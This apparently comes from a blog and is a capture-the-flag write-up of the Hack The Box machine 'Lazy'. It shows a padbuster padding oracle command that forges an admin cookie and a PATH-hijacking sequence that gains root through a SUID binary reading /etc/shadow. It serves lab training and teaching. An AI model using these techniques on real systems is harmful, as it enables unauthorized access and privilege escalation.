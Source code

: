 ```yaml
---
title: "Hack The Box - Lazy"
tags: [linux,medium,padding,oracle padding attack,cookie,ssh,SUID,path,path hijacking,cat]
categories: HackTheBox-Linux
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%201.png)

## Enumerating Web :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%202.png)

⇒ After we register and login we don't get anything. Inspecting the cookies we see an `auth` cookie.

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%203.png)

⇒ When we change the cookie we get the following error :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%204.png)

⇒ Researching for a while we come to `Padding Oracle Attack`. 

[https://www.hackingarticles.in/hack-padding-oracle-lab/](https://www.hackingarticles.in/hack-padding-oracle-lab/)

The padding oracle attack enables an attacker to decrypt encrypted data without knowledge of the encryption key and used cipher by sending skillfully manipulated ciphertexts to the padding oracle and observing of the results returned by it.

⇒ We will be using padbuster an automated script for performing Padding Oracle attacks.

`padbuster [http://10.10.10.18/index.php](http://10.10.10.18/index.php) ZVrX75FDWtDjgwNByepfkxAvql%2FGQmhR 8 --cookies auth=ZVrX75FDWtDjgwNByepfkxAvql%2FGQmhR --encoding 0 -plaintext user=admin`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%205.png)

→ We got admin cookie. 

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%206.png)

⇒ We used editthiscookie extension and just replaced our cookie with the admin cookie :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%207.png)

→ We got user mitsos ssh key :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%208.png)

⇒ SSH'ed in as user mitsos using the ssh key :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%209.png)

## Privilege Escalation to root

⇒ In user home directory there's an `backup` binary which is ran as **root** when we run it. 

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%2010.png)

⇒ After running strings on the binary we see that it does `cat /etc/shadow` . Full path to **cat** isn't specified so we can perform path hijacking and escalate our privileges

`cd /tmp
echo '/bin/sh' > cat
chmod +x cat
PATH=/tmp:$PATH
/home/mitsos/backup`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%2011.png)

**ROOTED**

